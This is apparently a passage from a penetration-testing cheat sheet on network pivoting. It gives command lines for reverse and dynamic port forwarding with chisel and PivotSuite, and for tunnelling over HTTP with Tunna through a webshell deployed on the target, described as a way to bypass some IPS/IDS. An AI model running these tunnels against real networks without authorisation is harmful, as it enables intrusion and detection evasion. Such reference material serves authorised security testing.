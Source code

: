 # Pivot machine
$ chisel client -v http://192.168.2.149:8888 R:127.0.0.1:44444:10.42.42.2:80

### PivotSuite


# Similar features to other tools but support multilevel pivot
# Like Metasploit

# "Remote" local port forwarding
# On the pivot
$ pivotsuite -S -F --server-option=PF --forward-ip=10.42.42.2 --forward-port=80 --server-ip=192.168.2.105 --server-port=8080

# "Remote" dynamic port forwarding
$ pivotsuite -S -F --server-option=SP --server-ip=192.168.2.105 --server-port=8080

### Tunna / Fulcrom (HTTP) {#tunna--fulcrom-http}


# Everything is through HTTP
# Bypass some IPS/IDS

# First step is to deploy webshell on the target
# Some are available with the tool (but not good)
# Can be hard to use

# Then on the attacker machine
$ python2 proxy.py -u http://192.168.2.105:8080/conn.php -l 7777 -r 80 -a 10.42.42.2 -v

